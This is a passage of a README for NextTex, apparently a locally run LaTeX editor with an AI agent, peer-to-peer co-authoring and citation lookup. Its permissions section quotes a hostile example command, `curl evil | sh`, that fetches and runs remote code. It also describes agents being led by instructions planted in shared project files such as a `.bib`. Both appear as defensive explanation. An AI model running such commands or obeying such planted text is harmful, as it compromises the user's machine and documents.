list carries the question, which you answer in two presses, once per
project, on each computer. The answer lives on the computer and not in
the project, so a project you cloned cannot arrive carrying permission
to run its own code; *Revoke* is on the settings sheet.

**And the page goes where you are writing.** When a build you caused lands,
the preview scrolls to the part of the page your caret is on and flashes it,
in whichever view mode you are in. It does that only when that part is not
already in front of you, so working down a page you are looking at moves
nothing. And it does it only for a build your own typing caused: a rebuild
you asked for while reading, a collaborator's edit, and the agent's edits
while you are mid-sentence all leave the page alone.

<details><summary>The measured numbers</summary>

`bench/thresholds.json` holds a budget for every slow path and `bench/bench.py`
measures against it, on a synthetic project of forty source files, two
megabytes of LaTeX, a populated build directory and a `.git` with a working
tree. They are budgets, not records. The point is to notice the change that
makes typing slower on the day it happens.

| | measured | budget |
|---|---|---|
| Chapter build, as an edit triggers | 343 ms | 4 s |
| Full build with `biber` | 17.9 s | 30 s |
| Full symbol scan | 17.9 ms | 400 ms |
| Symbol lookup, cached | 0.93 ms | 6 ms |
| Opening a project | 20 ms | 400 ms |
| Recording a version | 2.5 ms | 8 ms |
| Rebuilding a transcript | 13.5 ms | 120 ms |
| Project file tree | 3.6 ms | 250 ms |
| A collaborator's edit, applied | 3.1 ms | 40 ms |
| A settled edit written to disk | 1.4 ms | 40 ms |
| The same, with its version recorded | 3.0 ms | 60 ms |
| Whole project as a zip | 67 ms | 3 s |
| Interface bundle | 855.5 kB | 860 kB |

The first row is the one worth keeping. The compile rewrites `build/main.pdf`,
the symbol cache's stamp walk used to count it, and every build therefore
threw the index away and rescanned the project, 1.6 seconds after every pause
in typing. If that comes back, the cached lookup goes from about one
millisecond to about twenty.

Two of those are worth a footnote. *Opening a project* is what you wait for
after clicking one in the list: the tree walk, the transcript and the scan
that decides what else could be previewed. All of it used to happen on
the event loop, so for an eighth of a second nobody else's autosave or
collaborator got a turn. And a kilobyte in the last row is 1024 bytes; vite's
own console figure counts it as 1000, so a number read off the build output is
not this measurement and the two should not be compared.

`scripts/check.sh --bench` runs it, and the bundle row alone runs in
`scripts/check.sh --all`, straight after the build that produces it.
</details>

### It tells you what the error means

`chktex` runs while you type, and the LaTeX log is parsed into `file:line`
diagnostics with the right file attribution even inside `\include`d chapters.
They live in the *Build* drawer on the bar, which the count in the strip
under the source opens and `F8` steps through, with Rebuild at its foot;
a double-click on the bar's Build button rebuilds. Every message is
matched against a table of the errors that actually happen, so the
drawer says *Maths outside maths mode* and *put the expression between
dollar signs* rather than `Missing $ inserted`. It also names which error to
start with: LaTeX reports everything after a mistake as a mistake too, and a
writer who starts at the bottom of the list spends the evening fixing
consequences. None of this involves a model.

The commonest failure on a fresh TinyTeX is a package that is not
installed, and that row carries an *Install* button: it asks `tlmgr`
which package provides the missing file, names it, and on a second press
installs it and builds again. A failing install shows `tlmgr`'s own
words under the row, which on a TinyTeX behind its mirror is the one
sentence that says what to do.

None of that stops a build, though, and neither does what a venue sends
back. *Before you submit*, a drawer of its own on the bar, reads the
last build and the sources for exactly that: undefined references, a
`\today` in the footer, a `% TODO` beside a number, a `\todo` in the text,
a duplicate label, a label or a bibliography entry nothing uses, a
paragraph commented out and kept, a font that is not embedded and a
figure at screen resolution, the last two through poppler's `pdffonts`
and `pdfimages`. Type the venue's page limit and the count is checked
against it; switch on *Blind review* and the author block, the
affiliations and the acknowledgements become rows. Every row that has a
line goes to it, every row that has a page turns to it, and *Copy all*
puts the list on the clipboard for a co-author. No model is involved.

A `.bib` file gets rows of its own while you type it: a key pasted twice,
an `@article` with no journal, a year that says "in press", one paper
under two keys with the same DOI, and an entry nothing cites. Fix the
entry and the row leaves. Typing `@` at the start of a line offers the
entry types, each with its required fields as tab stops, and
`\bibliographystyle{` offers the styles your TeX has.

### Every pause is a version

A version is the sha256 of the file's bytes, stored once and compressed on
your own disk, so going back costs nothing. An editing burst collapses into
one version rather than forty, and old ones thin with age: everything from the
last day, hourly for a week, daily for three months, weekly after that. Some
are never thinned at all, because they are the ones people come back for:
one you named, one the agent made, and the ones that mark a change of state
rather than a change of text, which are a file's first version, a deletion,
a restore, an undo or a redo.

Figures are versioned too, so replacing a plot keeps the one it replaced byte
for byte. A deleted file goes to a trash that never empties itself, because a
trash that clears after thirty days loses the thing you went looking for on
day thirty-one. None of it is git, and none of it needs you to have
committed.

On a shared project the history is shared too, and each version says who
wrote it. Their versions arrive as a list straight away and their contents
are fetched when you open one, because almost nobody opens almost any old
version and downloading a colleague's whole history before your first
keystroke would be the wrong trade. How far back each of you keeps them is
your own business: thinning is a decision about your own disk.

### Four git commands, and the fifth one is a terminal

See what changed, commit it, push it, pull it back on another machine. That is
a paper's whole relationship with git, and the Git drawer holds exactly that:
the branch with how far ahead or behind it is and Pull beside it, the changed
files, a message field, and one button that commits and pushes. Seeing what
changed means the patch, not only the file's name: the chevron beside a
changed file opens it, with the old lines and the new ones.
The same patch is there for any version in a file's history, against the
file as it stands or against any other version.

A project with no repository is offered one, *Keep versions here*, with a
first commit and a `.gitignore` that already knows about `build/` and
`.nexttex/`. Sending a copy to GitHub is a separate step, *Back up to
GitHub*: with the GitHub CLI signed in it creates the repository, private
by default, and pushes into it; a token you supply goes to your credential
store rather than into the remote URL, so it never turns up in
`git remote -v`. Branching and merging stay in the terminal, where the tools
are better and the mistakes are recoverable.

### The page you write on

The editor is lit on its own terms, because the shell and the page are
answering different questions. The frame is chrome and plenty of people want
it out of the way in the dark; the page is the thing being typeset, and a
writer who thinks in paper wants that white whatever the frame is doing. Two
grounds: the theme's own, and white, the same white as the typeset page.
The syntax colours, the gutter and the text's weight all follow the page
rather than the frame. Dark type on a bright ground looks
thinner than light type on a dark one, so a light page sets the text a step
heavier on its own; the weight is a control of its own if that lands wrong.

Colouring the commands is off by default, because the typeset page two panes
away has to stay the loudest thing on screen. Turned on, it gives sectioning,
environments, mathematics, citations and the preamble a hue each, which is
what makes a long chapter skimmable for its shape rather than its words.
Highlighting has a second half, Emphasis: commands are set a step heavier
than the prose unless you choose Plain, and a plain command takes a quiet
slate instead so that `\textbf` never looks like the word after it. The
same switch reaches a script. A `.py` open in the editor takes the same
five hues, keywords in the sectioning colour, strings in the citation
colour, numbers in the mathematics colour, and so on, so a figure script
never reads as a second palette beside the chapter it draws for.

All of it is on the settings sheet, which the Settings button at the foot
of the bar opens. The sheet is four groups down its left, each saying
where its choices live: *How it looks* and *While you write* on this
computer, *This project* with the project, *This install* for who may
open it and who writes with you. Tutorial and a reset of this computer's
choices are at the foot.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/screenshot-settings-dark.png">
  
</picture>

*The settings sheet on its first group. A row is a title, sometimes a
line under it, and the control at the right.*


*A dark shell holding a white page, with colouring switched on. Both are
settings; neither is the default.*

If your fingers already know Vim or Emacs, the settings sheet's Keymap
row gives the editor either, fetched only when chosen so a session that
wants neither pays nothing. Undo stays the document's under both: `u` or
`C-/` undoes what you typed, never what a collaborator did.

Paste a spreadsheet's cells or a `.csv` into a chapter and they arrive as
a booktabs table, cells escaped, numbers right-aligned, the caret in the
caption; paste a screenshot and it is saved under `figures/` with a
figure environment written for it. Neither happens inside `verbatim`.

### Panes, and two modes

Double-click the preview's tab in front for a reading mode: everything else
folds to a strip and the typeset page gets the screen. The empty part of the
tab strip does the same for writing, except that it keeps the drawer, because
you are still moving between chapters. Double-click again and your layout
comes back exactly as you left it, including what you had already folded
away. A single click on the tab in front, or on the fold control at the end
of either strip, folds just that pane, as it does on the agent's header.
Both modes have a key as well, `⌘⌥R` / `Ctrl-Alt-R` for reading and `⌘⌥E`
/ `Ctrl-Alt-E` for writing, for when the tab strip is full and there is
nothing left to double-click.

Right-click the tab you are working in and you can close every other tab,
close everything to its right, close the lot, duplicate the file, or download
it. A duplicate arrives beside the original as `chapter (copy).tex` and the
Files drawer opens far enough to show you where it landed; nothing moves out
from under you, so the file you were editing is still the one in front.

A Markdown file gets the same treatment as a script: open a `README.md` or a
set of notes and its rendering joins the preview strip as a tab of its own,
following your typing a moment behind, while the typeset page waits behind it
for the next `.tex` you open. Choosing its tab brings the file to the source
pane, as a document's tab does, and a double-click on a paragraph puts the
caret on that word in the source, as it does on the page. A figure opens
whole, however large, with a zoom that steps from what fits and a Download
beside it.

The two strips keep each other tidy. Stop previewing a document and the files
that belong to it, its chapters, its bibliography, its own root file, close
with it; a file another previewed document also reads stays, and so does a
scratch file nothing reads. In the other direction, a document that arrived
on the preview strip only because you opened one of its chapters leaves again
when you close the last of them, while one you added with `+` or clicked on
stays until you stop it yourself. Reopening a closed tab with `⌘⌥⇧T` /
`Ctrl-Alt-Shift-T` brings its document back too.

The bar down the left edge has eleven buttons, Files, Sections, Search,
References, History, Git, People, Build, Before you submit, Download and
Deleted, and one drawer beside it shows whichever you chose at full
height; a second press on the lit button folds the drawer away, and
`⌘B` / `Ctrl-B` hides the whole column. The project's name heads the
column, and the top of every pane is one band across the window.
The Files drawer's heading row holds New file, New folder, Upload and Find
a file: type into the field and the tree narrows to what matches, through
folders you had collapsed, with the count beside it, and clearing it gives
back exactly the tree you had. Rows drag onto folders, and a folder takes
everything under it, including open files, which follow it rather than being
left pointing at a name that no longer exists.

Four things render where they are written. Rest the pointer on a formula
in the source and it appears typeset beside it; on a `tabular` and the
table is drawn, with its rules, its alignment and its `\multicolumn`s; on
an `\includegraphics` and the picture appears with its pixel size and its
size on disk, a PDF by its first page; on a `\ref` and the card says what
the reference will say, "Figure 3, on page 7", and draws the figure, the
table or the equation it points at, with its caption. The Files drawer
shows the same picture card beside the row of an image or a PDF, on
hover or when the row has the focus.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/screenshot-hover-dark.png">
  
</picture>

*A figure's card beside its row, and a table drawn over its source. Both
go when the pointer moves on.*

## The agent

### It edits the project, and asks about everything else

An edit inside the project happens directly and appears in the transcript as a
chip with its diff and an undo. A shell command, or a write outside the
project, produces a card you have to answer first, and the card ignores clicks
for 350 ms so one arriving under a moving cursor cannot be approved on the way
past. *Allow always* is scoped to a command's first word; a command carrying
shell syntax cannot be, since `git status; curl evil | sh` starts with `git`,
so that one is remembered by its exact text and covers nothing else. What you
answer is kept with the project, so a restart does not ask you again.

If that is more asking than you want, the chip under the box, the one that
names the model and says *asks first*, opens a menu with three positions,
and you choose which one you are in.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/screenshot-agent-dark.png">
  
</picture>

*The column mid-turn. Three tool calls fold to one line, the edit is a chip
with its diff and an undo, and the script it wants to run is a card you
answer.*

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/fence-dark.svg">
  
</picture>

**Ask before acting** is the above: a card for every command, every fetch and
every write that leaves the project. It is the only one of the three that is a
complete fence, and it is the default.

**Run the work without asking** is the one most people will want. Commands and
edits run silently, and that includes the piped, chained and redirected
commands that make up nearly everything a build or a data script actually does.
Two things still ask. Writing outside the project, or to a file inside it that
the build itself runs, a `latexmkrc` or a `Makefile`, because approving the
writing is not approving the machinery. And anything that reaches the internet,
because both the address and what is sent to it are chosen from files that may
have come from somebody else. Both of those gain a third answer, *Allow for
this conversation*, so a run that fetches eleven references asks once instead of
eleven times.

It is worth being plain about what that position does not promise. It reads the
command the agent is about to run, not what the command then does, so a script
it starts can write anywhere you can write and reach anything you can reach.
That is not a hole to be closed by a longer list of words; it is what running
somebody's commands means. The first position is the one that asks about all of
it, which is why it is the default and why it is still there.

**Never ask about anything** does what it says, including for a write that
leaves the project. Switching it on takes a second press and a sentence
saying so, because the risk is not really about your own judgement. The
agent's instructions come partly from your project's own files, and those
arrive from templates, from clones and from co-authors, so a sentence in
somebody else's `.bib` file is an instruction it may follow.

Every automatic approval appears in the transcript marked as one, whichever
position you are in, and at the quietest position that record is the only
account of what was done. While the fence is down at all, **Auto** sits in
the column's header in the warning colour, saying which position it is in,
and one click on it steps back. A fence that is down and says nothing is
worse than no fence.

**It says what it is doing, and for how long.** A turn can spend twenty seconds
inside a tool, or a while thinking before it says anything, so the header
carries a live line: *Reading 02_theory.tex*, *Searched the literature*,
*Thinking*, *Writing*, with a count of seconds beside it once one passes three.
When the agent writes itself a list of what it means to do, that list is on
screen and ticks itself off. Every tool call that took more than half a second
says how long it took.

**It remembers the project, not just the conversation.** Tell it that chapter
three is frozen, or which measurements came from a collaborator, and it writes
that down where the next conversation will read it. So you can start a fresh
conversation whenever the current one has wandered, without teaching it your
project again. The memory is a plain file you can correct by hand, shown
under *What Claude reads* in the column's header, which lists everything
the agent is given.

**A conversation can be ended.** *New conversation* clears the column and the
model's own recollection, and files the transcript away under a timestamp
rather than deleting it, because it is the record of what an assistant did to
your document. What the project has cost carries over, and so do the
permission rules you have set.

**It learns how you write.** Give it the handbook you have to follow and a
paper you have already written; it reads them once, distils them, and keeps
the result in its instructions from then on.

### It draws a figure from your data

Point at a dataset in the Files drawer and ask for a plot, or just say which
file and what to plot. The agent reads the data, writes a Python script,
runs it, and puts the figure in your document. The first attempt looks
right, for reasons that are set out below.

**The script is saved in your project, under `scripts/`.** That is the part
worth caring about. A figure a model drew and threw the script away for is a
figure you cannot change next year, when a referee asks for the same plot on
a log axis. So the script is a file in your project with a version history
like any other, and re-drawing is running it again rather than asking again.
You can run it from the source pane with Run, or the agent can run it by
name without touching it, and is asked first, with the code on the card.
That holds for whichever agent you chose: Claude, OpenAI or a local model
draw the same card for the same script, and a script you allowed always
under one is allowed under the other, because the answer is about the
code and not about the model.

**The first attempt is already the right shape for a paper**, which is the
difference between a figure you keep and one you redraw by hand. The first
time it plots, NextTex puts two small files in `scripts/`: a matplotlib
style sheet and a nine-line helper. They set a serif face to match your
document, a 10 pt label to match your body text, two hairline spines instead
of a box, ticks pointing in, no grid, a colour-blind-safe palette, and a
frameless legend. The single most important thing they do is size the figure
to the width it will be printed at, so that a 10 pt label in the script is a
10 pt label on the page. Matplotlib's default is 6.4 inches wide, and
including that at `0.8\linewidth` shrinks every label to about 5 pt, which
is why a default figure is unreadable and why this one is not.

Both files are yours. Open them, change them, and nothing overwrites them
again.

Figures are written as PDF, because a figure in a paper is vector line work
and a PNG of it is resolution-locked the moment it is written. Pass a name
ending in `.png` for the cases where a raster is honestly right, a
micrograph or a heatmap with a million cells.

If a plot needs a package this install does not have, it says which one and
asks. Installing it is your press.

**And the script is yours to run.** Open it from the Files drawer, change the
axis label or the width, and press Run at the end of the tab strip, or
`Ctrl-Enter` in the editor. A tab for the script joins the preview strip
beside your documents, and it shows what the run printed, every figure the
script drew, whether it saved it or only called `plt.show()`, and the
files it wrote into the project, each a click from opening. When a run
fails, the traceback is there with its last line set apart, and one press
hands it to the agent with the script's name and what it said, ready for
you to send. A missing package is offered as an install, after a second
press that says what it reaches. The output stays with the script: open
it tomorrow and the pane shows the last run.

### You can show it something

Paste a screenshot into the box, drop an image on the column, or pick one
with the attach button beside it.
A referee's marked-up page, a table that has come out wrong, a figure from
somebody else's paper: hand it over rather than describing it. The chip
above the box shows a thumbnail of what is going with the question, so an
image attached to the wrong question is something you notice rather than
something you find out about.

The image is kept inside the project, in `.nexttex/attachments/`, and the
agent reads it from there. Nothing about it goes anywhere your question was
not already going.

### A review in two voices, and a prompt is a file

Type `/` at the start of the box and a menu lists the reusable prompts.
Two come with NextTex: `/review friendly` reads the selected passage, or
the document, as a mentor would, what works and what to strengthen, in
that order and kindly; `/review critical` reads it as the second reviewer,
the claims that are not supported, the weakest section, what a rejection
letter would say. Arrow to one, press Enter to fill its name in, add a
note after it if you like, and send. What you typed is what the
transcript shows; the prompt's text goes to the agent ahead of it.

A prompt is a Markdown file, and its name is the file's name with hyphens
read as spaces. Put `tighten.md` in a `prompts/` folder at the project's
root and `/tighten` is one more; copy a built-in there from *What Claude
reads* and the copy is the one used, so a group can edit its own reviews
and commit them with the paper.

### It cannot invent a citation

The agent searches Crossref, OpenAlex or Semantic Scholar and gets back real
DOIs. It adds an entry by DOI, and the BibTeX comes from the publisher's own
record rather than from the model: from Crossref, or, for a preprint or a
dataset registered elsewhere, from `doi.org`, which hands the request to
whichever agency holds the DOI. What arrives is made safe for pdflatex on
the way in, Greek letters and accents set as LaTeX and acronyms braced so a
title-casing style keeps them. It can then re-check every entry in your
bibliography against the record it claims to come from. A fabricated reference
is an academic integrity failure, so the defence is structural rather than a
matter of care: there is no path from the model's memory to your `.bib` file.

All of that is yours without an agent as well, in the References drawer. One
field takes a few words or a pasted DOI: words go to Crossref, OpenAlex
or Semantic Scholar, whichever you chose, and each result carries an
*Add* that puts the publisher's record into your `.bib` and shows the key
it made, with the full author list, the venue and the abstract on a card
when you rest on it; a DOI goes to the publisher, and the entry arrives
with its title, author and year shown, so you can check it against the
page in front of you. *Check the bibliography against its records*
re-reads the whole bibliography and lists every entry that disagrees with
the record it came from. Neither writes anything the publisher did not say.

The agent can also point. `goto` opens a file in your editor at a line,
and `show_page` turns the preview to a page of a document on the strip,
so "the table on page twelve overflows" arrives with page twelve in front
of you. Neither changes anything.

### Point it at a folder of papers

The actions button on your `.bib` file's row, *Add papers from a folder*, and NextTex walks it,
whether that is a Zotero library or a Downloads folder, finds each paper's DOI
in its own text, fetches that record from the publisher and appends it.
Nothing is added twice, and a PDF whose DOI cannot be found is reported rather
than guessed at.

The safeguard worth knowing about: a DOI printed on page one is sometimes one
the paper *cites*. So the record's title is checked against the paper's own
first pages, and a record that does not describe the paper it was found in is
refused. That check makes importing two hundred papers as trustworthy as
adding one by hand.

This works with no agent at all. **With an agent, the same papers become a
library it can search**, so it can ask what you have already read before going
to the whole literature. What it gets back is labelled as quotation rather
than instruction, because the text came out of files you downloaded.

## Writing it with somebody else

Share a project and you get an invite to send. Whoever opens it gets the
whole project, every file and what those files used to say, into a folder
of their own, and from then on the two copies stay in step. Share is on
the project's row in the list, and inside a project it is the People
drawer on the bar: who is in the project, the file each of them is in,
the invite, and Remove on a row.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/screenshot-share-dark.png">
  
</picture>

*The share sheet, opened from a row. The invite is a credential; the
sentence over it says so.*

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/collab-dark.svg">
  
</picture>

### Both of you keep a whole copy

Yours is not a cache of somebody else's: your own files, your own version
history, your own git repository and your own backups. If the other
person's laptop is shut, or yours is, both of you carry on writing; when you
are both back, the two sets of edits are merged rather than one of them
being refused. That is true of an afternoon apart as much as of a second,
and it needs nothing switched on.

The thing keeping in touch is the NextTex on each machine, not the browser
tab. So a collaborator's work arrives while your tab is closed, and a shared
project picks its peers back up when the server starts, so you do not have to
open it first for their afternoon's writing to land.

### You can see where they are

Their caret sits in your margin in their own colour, and says their name
for a moment whenever it moves. A strip at the end of the tabs shows who
else is in the project, filled in while they are typing, outlined while
they are only there. Their name is on the versions they wrote, so a month
later the history says who changed the paragraph.

### A collaborator is a public key

There are no accounts, no server in the middle, and nothing to sign up
for. Two NextTex installs find each other and talk directly, encrypted end
to end, over a connection made to the other side's key rather than to an
address. An invite is single-use and expires, and it is a credential, so
send it the way you would send a password.

### Nobody owns it, and anyone can leave

Nobody owns a shared project, which has one honest consequence worth
knowing before you rely on it: anyone in it can invite somebody, anyone can
remove anybody, and removing somebody does not take back the copy they
already have. It stops the two of you syncing. It cannot unsend a paper. The
button says so, next to itself. Somebody who is removed is told so, once,
and their copy stays theirs.

You can stop sharing from the same sheet. The others carry on without
you, and your copy stays on your computer as a project of your own, with
its history, or is deleted if you tick the box that says so. The row says
how many people it is shared with once you have. Deleting the
folder by hand is never the way out: NextTex would take that as this copy
being gone, which is what it is, and nobody else would notice anything.

### Losing your folder is not losing your place

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/lost-folder-dark.svg">
  
</picture>

If the folder on your machine is deleted, moved, or on a drive that went
away, nobody else is affected, and you are still in the share. NextTex
keeps a note of every share you are in outside the project. So the project
list can offer two ways back: find the folder, if you moved it, or rejoin
from your collaborators, with no new invite needed, into a folder that is
empty or already holds a copy of your own.

### Joining into a folder you already have

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/join-copy-dark.svg">
  
</picture>

The folder an invite arrives in can already hold a copy of the files, a git
clone say. NextTex lets the shared project arrive first and then shows what
accepting would do to each file: the same as yours, new from the others,
only here, or different. Where a file differs the shared copy wins, and
whatever it replaces goes to that file's history or to the trash rather
than anywhere it cannot be got back from. A git clone's own uncommitted
edits are merged in where git can merge them cleanly. Nothing is written
until you accept.

### Git and the agent stay yours

Each of you keeps your own `.git`, so committing and pushing are yours
alone. Pull between sessions rather than during one, because a pull
replaces a whole file and will win against a collaborator's untouched
paragraphs. And your conversation with the agent is yours: the writing is
shared, the chat is not.

## What it is not

**Collaborative between installs, not in a browser.** Everyone who works on a
shared project runs their own NextTex and holds the whole thing: the files,
their history, their own git repository. There are no accounts and no guest
links, and a collaborator is a public key, so there is nobody to sign up with
and nothing in the middle to go down. What there is not: comments,
suggestions, tracked changes, or any notion of who is allowed to do what.
Everybody in a shared project can do everything, including inviting somebody
else, disconnecting somebody else, and leaving.

**Not a git client**, and not a general-purpose editor.

**Sharing needs a platform iroh builds for**: Linux, Windows, and Macs with
Apple silicon. There is no build for an Intel Mac, so on one of those the
share sheet says sharing is unavailable and everything else works exactly as
it does anywhere. The installer treats iroh as optional for the same reason:
a missing build costs you the one feature, not the install.

### On Windows, verified in more places than it used to be

Windows support is written, and most of it has now been run end to end on
a real laptop rather than only on a runner. On 22 and 23 September 2026,
on Windows 11 with an account that is an administrator but runs
unelevated, all of this happened in one sitting and each line of it found
something:

- the documented `irm ... | iex` install, from nothing to a working
  install, including MiKTeX fetched by the installer;
- the uninstall, by the six lines this README gives, which is how we
  learned that one of them could kill the shell running it;
- the update button twice, once carrying an install a hundred and
  seventy-six commits forward in one step, with the restart helper
  bringing the server back each time;
- the **logon task**, registered, rebooted into, and starting the server
  by itself, which this section called unproven for a year;
- the desktop shortcut, from a OneDrive-redirected Desktop, starting a
  server and opening a browser on it;
- a server left alone overnight through nine sleep cycles, still serving
  in the morning.

The whole install after the clone is the same Python that Linux and macOS
run, so what used to be Windows-only code is now Windows-only *branches*
of code the test suite exercises on every platform, including the
console-encoding fallback that a legacy code page needs.

**What is still unproven**, with the reason for each. Signing in to Claude
from the browser needs a pseudo-terminal, which Windows does not have, so
run `claude auth login` in a terminal once or use an OpenAI key. The
drawer's *Install* button has never run against a real MiKTeX package
manager: the machine that finally had one had a mismatched toolchain, one
distribution's engine reading another's package tree, and a result from
that would have meant nothing either way. The interactive prompts have
never been answered by a person on Windows, because every automated run
arrives with a redirected input and takes the unattended path. And no
Intel Mac has run any of it.

**Two things worth knowing if you run it there.** A server started by the
logon task took about five minutes from boot to answering on its port,
where the same build started from the desktop shortcut took twenty-five
seconds, so if you reboot and look straight away you may think it did not
start. And if you have two TeX distributions installed, check the TeX line
in *Report a problem*: it now says when the engine on your PATH belongs to
a different distribution from the one NextTex found, which is worth fixing
before you wonder why a one-page document takes a minute and a half.

Reports welcome.

## Requirements

The last column has three states. **Named** is the middle one: the
installer will not fetch it, but it tells you so on its survey, before it
asks you anything, with the command for the platform you are on, so you can
install it and run the installer again.

| What | Why | Supplied by the installer? |
|---|---|---|
| `git` | NextTex is a checkout, and stays one so it can update itself | **named** |
| Python 3.10+ | The server | yes, and `uv` brings one if this machine has none |
| Node 20+ | Only to build the interface locally, if the prebuilt one cannot be downloaded | **named** |
| `pdflatex`, `latexmk`, `synctex` | Typesetting and the two-way jump | yes: TinyTeX, or MiKTeX on Windows, if you let it |
| `biber` | biblatex bibliographies | yes, via `tlmgr` |
| `chktex`, `texcount` | Linting and word counts | yes, via `tlmgr` |
| `pdftotext` | Only for reading a folder of papers into your `.bib` | **named**, and it comes with poppler-utils |
| `pandoc` | Only to download a document as Word, HTML or Markdown | **named** |
| The [Claude CLI](https://claude.ai/download) | Only for the Claude agent | yes, if you choose it, at install time or later from the settings sheet |
| An OpenAI API key | Only for the OpenAI agent | no, you paste it into the app |
| `gh`, signed in | Only for *Back this up to GitHub* | no |
| `tailscale` | Only to reach this install from another machine | **named** |
| iroh | Only to share a project with another writer | yes, with the Python dependencies |

Nothing in the bottom half of that table is needed to write and typeset.

### What it costs to leave running

NextTex is meant to be left switched on, so what it uses while nothing is
happening matters more than what it uses at its peak. Measured on Linux, on
an install configured for Claude, with the thesis-shaped project the
benchmarks use, which is forty source files and two megabytes of LaTeX:

| | |
|---|---|
| Memory, idle | about 90 MB |
| Memory, with a forty-file project open | about 91 MB |
| Processor, idle | 0.1% of one core |
| The state directory | tens of kilobytes |

The number that surprises people is the third one: an idle NextTex is
genuinely idle. There is no polling loop and no scheduled work. The file
watcher waits on the operating system, and a build only happens because you
typed something. Choosing no agent, or OpenAI, takes the idle figure to about
60 MB, because the Claude SDK is the larger part of it.

What is *not* in those numbers is `latexmk`, which is a separate process that
starts when a build does and exits when it finishes. A big build is the one
time NextTex will use a whole core, and that is TeX rather than NextTex.

On disk, an install is about 300 MB, nearly all of it the Python virtual
environment. TeX is much larger than everything else here, since TinyTeX is
about 460 MB installed, and it goes outside NextTex, shared with anything
else on the machine that typesets.

Your projects are the rest, and they are yours: the version history is
compressed and content-addressed, so a year of writing is usually smaller
than the PDF it produces.

## What leaves this machine

NextTex serves your own files from your own machine and ships its own
typefaces, so the interface works on a host with no route to the internet.
Seven things go out, all of them things you asked for:

1. What you send the agent, to Anthropic or OpenAI, unless the OpenAI
   provider points at a local server, in which case it goes nowhere.
2. Reference lookups, to Crossref, OpenAlex, Semantic Scholar, arXiv and
   `doi.org`.
3. What the installer downloads, and only what the plan it printed said it
   would: TinyTeX from `yihui.org` and `tinytex.yihui.org`, the Claude CLI
   from `claude.ai` if you chose it, and `uv` from `astral.sh` when this
   machine's Python cannot make a virtual environment on its own. It also
   opens a two-second connection to each of those before it asks you
   anything, so that being offline is something you are told rather than
   something you wait for.
4. GitHub, to check whether this install is behind and to download the
   interface for the commit it is on. Nothing about you or your documents
   goes with either request. Reporting a bug (below) opens a GitHub page in
   your own browser with a report you have read first; NextTex's own code
   sends nothing.
5. **Only if you agree to it**, and never on its own: `pypi.org`, when a
   figure needs a Python package this install does not have. The agent
   reports the missing package and asks; installing it is a press of yours
   and a card you answer, and nothing about your documents goes with the
   request. The script pane's Install button is the same request, behind a
   second press that says so.
6. **Only once you share a project**, and not before: iroh's discovery at
   `dns.iroh.link` and its relays at `relay.n0.iroh.link`, so two
   collaborators can find each other through whatever home routers and
   university firewalls are in the way.

   That one is worth being precise about, because it is traffic between you
   and somebody else passing through machines neither of you runs. A
   connection between peers is QUIC over TLS *to the other peer's public
   key*. A relay forwards ciphertext: it can see that two endpoint ids are
   talking and roughly how much, and it cannot see a document, a file name,
   or who either of you is. Where the two of you can reach each other
   directly, in the same office or on the same tailnet, nothing goes through a
   relay at all. A project you have not shared contacts none of it.
7. **Only when you bring a project from elsewhere**: `arxiv.org`, for the
   source of the paper whose id you typed, and the git host whose URL you
   typed, for the clone. Nothing about you goes with either request beyond
   what a browser would send.

That is the whole list, and a test fails if a new host appears in the source
without this section changing. There is no telemetry and no analytics of any
kind: not disabled by default, not present.

<details><summary>Access, TLS, and why Tailscale is in here</summary>

The installer prints a URL carrying a token, which is how the first browser
gets in. That browser is then asked to set a password, the way JupyterLab
does, and once there is one every browser after it gets a sign-in page.
Signing in issues *that browser* its own session rather than handing it the
install's token, so no browser is holding the master credential. The
settings sheet can sign the others out, which is useful when the one you
left signed in is a laptop you no longer have. The token stays as the way
back in, as a query parameter or an `x-nexttex-token` header, so scripts
are unaffected and a forgotten password is recoverable from the machine
itself.

On localhost it is plain HTTP, so a password typed at the machine's own
browser crosses nothing but the loopback; any address another machine can
reach is served over TLS, with a certificate from `tailscale cert` where your
tailnet has HTTPS and a self-signed one otherwise. A password never crosses a
network in the clear.

This is a separate question from who may sync with you. The password decides
which *browsers* may drive this install; a collaborator's public key decides
which *installs* may exchange documents with it. Neither one grants the other.

Signing in to Claude drives the CLI's own login and the credentials land where
the CLI keeps them, so NextTex never sees or stores them. An OpenAI key goes
in the instance's config file, `chmod 600`.

Tailscale is in here because the machine you want to write on is often not the
one you are sitting at: a lab workstation, a compute server, the box the data
lives on. The usual answer is an SSH tunnel each time, or a reverse proxy and
a certificate and a hostname to maintain. Choose Tailscale at install time
instead and the server also answers on your tailnet address, over TLS,
reachable from your own devices and nothing else. The machine can sit behind a
university firewall with no inbound route and still be the one you write on
from a train. If you only ever write at the desk it is installed on, say
localhost and skip it.
</details>

## A project on disk

Point NextTex at any folder containing a LaTeX document: *Open a folder*,
under *Other ways in* on the projects screen, takes a path typed in or
picked with Browse, which walks the disk of the machine NextTex is running
on. `examples/minimal-article` is there to try it on. A new project starts from one of five templates: an article, a
report in chapters, a talk, a letter, or a job application, which is a
resume and a cover letter as two documents with a `posting.md` beside them
for the listing's notes, the shape a folder per application takes. A
project that exists somewhere else is brought here from the "Other ways in"
menu: choose a zip somebody sent, type an arXiv id, or paste a git
URL, and it arrives in a new folder. A zip's entries that would run or
leave the folder, a `Makefile`, a `.claude/`, a `../`, are left out and
named; a clone keeps its `.git`. A project can carry a `nexttex.toml`:

```toml
[project]
name = "My Thesis"
build_dir = "build"

# Written by the settings sheet and yours to edit. Per project rather than
# per browser: a forty-file thesis takes twenty seconds to build and a
# one-page note takes one.
autocompile = true      # build as you type; ⌘S builds when this is off
mark_errors = true      # mark compile errors in the text itself
mark_warnings = false   # and chktex warnings, which are noisier
engine = "xelatex"      # or "lualatex"; pdflatex when the line is absent
shell_escape = true     # asks for -shell-escape; each computer still says yes once
page_limit = 8          # the venue's limit, for Before you submit; absent means none
blind = true            # an author, an affiliation or an acknowledgement is a finding
```

There is no main file to name. Every `.tex` with a `\documentclass` and a
`\begin{document}` of its own that no other file reads is a document with
its own PDF, the way a folder of notebooks is a folder of notebooks. The
preview shows whichever one you are writing: open a chapter and the page is
